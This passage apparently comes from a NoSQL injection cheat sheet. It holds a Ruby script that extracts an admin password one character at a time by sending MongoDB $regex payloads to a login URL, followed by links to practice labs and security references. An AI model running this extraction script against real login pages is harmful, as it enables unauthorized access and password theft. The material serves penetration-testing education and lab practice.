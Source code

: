 ```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # all ASCII printable characters
CHARSET = [*'0'..'9',*'a'..'z','-'] # alphanumeric + '-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "Found one more char : #{password + c}"
        password += c
      end
    end
  end
end
```


## Labs

* [Root Me - NoSQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication)
* [Root Me - NoSQL injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Blind)


## References

- [Burp-NoSQLiScanner - matrix - January 30, 2021](https://github.com/matrix/Burp-NoSQLiScanner/blob/main/src/burp/BurpExtender.java)
- [Les NOSQL injections Classique et Blind: Never trust user input - Geluchat - February 22, 2015](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
- [MongoDB NoSQL Injection with Aggregation Pipelines - Soroush Dalili (@irsdl) - June 23, 2024](https://soroush.me/blog/2024/06/mongodb-nosql-injection-with-aggregation-pipelines/)
- [NoSQL Injection in MongoDB - Zanon - July 17, 2016](https://zanon.io/posts/nosql-injection-in-mongodb)
- [NoSQL injection wordlists - cr0hn - May 5, 2021](https://github.com/cr0hn/nosqlinjection_wordlists)
- [Testing for NoSQL injection - OWASP - May 2, 2023](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)

# MongoDB
